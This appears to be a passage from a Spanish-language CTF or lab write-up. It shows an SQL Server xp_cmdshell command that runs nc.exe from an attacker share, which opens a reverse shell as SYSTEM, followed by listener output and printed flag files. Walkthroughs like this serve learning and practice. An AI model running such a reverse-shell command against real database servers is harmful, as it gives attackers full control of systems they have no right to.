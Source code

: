 Ahora en la maquina victima donde estamos en el `SQL Server` ejecutaremos lo siguiente:

```powershell
EXEC xp_cmdshell '\\<IP_ATTACKER>\kali\nc.exe -e cmd <IP_ATTACKER> <PORT>';
```

Ahora si nos vamos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.28.5] from (UNKNOWN) [192.168.28.7] 50027
Microsoft Windows [Versi�n 10.0.19045.2965]
(c) Microsoft Corporation. Todos los derechos reservados.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Veremos que ha funcionado y que seremos directamente `administradores` por lo que leeremos las `flags`.

> user.txt

```
bf79ead1586ea0cd464dd58257be9e30
```

> root.txt

```
                     ____...                                  
             .-"--"""".__    `.                                
            |            `    |                                
  (         `._....------.._.:          
   )         .()''        ``().                                
  '          () .=='  `===  `-.         
   . )       (         g)                                
    )         )     /        J          
   (          |.   /      . (                                  
   $$         (.  (_'.   , )|`                                 
   ||         |\`-....--'/  ' \                                
  /||.         \\ | | | /  /   \.                              
 //||(\         \`-===-'  '     \o.                            
.//7' |)         `. --   / (     OObaaaad888b.                 
(<<. / |     .a888b`.__.'d\     OO888888888888a.               
 \  Y' |    .8888888aaaa88POOOOOO888888888888888.              
  \  \ |   .888888888888888888888888888888888888b              
   |   |  .d88888P88888888888888888888888b8888888.             
   b.--d .d88888P8888888888888888a:f888888|888888b             
   88888b 888888|8888888888888888888888888\8888888
```
